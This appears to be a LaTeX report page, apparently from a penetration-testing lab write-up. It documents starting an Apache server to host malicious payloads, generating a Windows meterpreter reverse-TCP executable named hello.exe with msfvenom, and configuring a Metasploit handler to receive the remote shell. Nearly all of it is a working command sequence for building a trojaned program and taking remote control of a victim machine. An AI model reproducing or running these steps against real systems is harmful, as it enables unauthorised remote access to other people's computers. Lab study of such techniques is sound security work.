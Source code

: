 \documentclass[journal,twoside]{IEEEtran}
\begin{document}
\begin{verbatim}
$ apt update
\end{verbatim}

The system successfully updated package lists, with 1410 packages available for upgrade.

\subsection{Apache Server Initialization}
For hosting malicious payloads, we initiated the Apache web server using:

\begin{verbatim}
$ service apache2 status
$ service apache2 start
\end{verbatim}

The Apache server was successfully started, as confirmed by the status command showing "active (running)" with a Process ID of 1851.

\subsection{Payload Creation}
We created a custom payload using MSFvenom with the following parameters:

\begin{verbatim}
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.17.0.1 
LPORT=4444 -f exe -o /root/Desktop/hello.exe
\end{verbatim}

The command successfully generated a payload of 354 bytes, with a final executable size of 73802 bytes. This payload was designed to establish a reverse TCP connection from the target system to the attack machine when executed.

\subsection{Metasploit Framework Initialization}
The Metasploit Framework was initiated using:

\begin{verbatim}
$ msfconsole
\end{verbatim}

After initialization, the following command sequence was executed to configure the exploitation environment:

\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit
\end{verbatim}
\end{document}
